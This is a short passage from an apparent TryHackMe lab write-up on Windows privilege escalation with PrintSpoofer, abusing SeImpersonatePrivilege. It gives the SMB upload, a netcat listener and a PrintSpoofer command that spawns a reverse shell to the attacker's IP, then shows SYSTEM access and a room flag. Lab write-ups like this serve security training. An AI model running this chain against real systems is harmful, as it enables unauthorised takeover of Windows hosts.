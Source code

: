 However, it gets blocked. 
## Printspoofer
Printspoofer also allows abusing `SeImpersonatePrivilege`. 
Download executable from https://github.com/itm4n/PrintSpoofer
```bash
# on kali
ls
# nc.exe PrintSpoofer64.exe
smbclient //10.10.208.144/nt4wrksv -N 
smb> put nc.exe
smb> PrintSpoofer64.exe

nc -lvnp 4444

# on windows
cd c:\inetpub\wwwroot\nt4wrksv\
PrintSpoofer64.exe -c "c:\inetpub\wwwroot\nt4wrksv\nc.exe -e cmd.exe 10.8.97.245 4444"
```
As a result we will get highest privileges:
```powershell
C:\Windows\system32>whoami
nt authority\system

C:\Users\Administrator\Desktop>type root.txt
THM{1fk5kf469devly1gl320zafgl345pv}
```
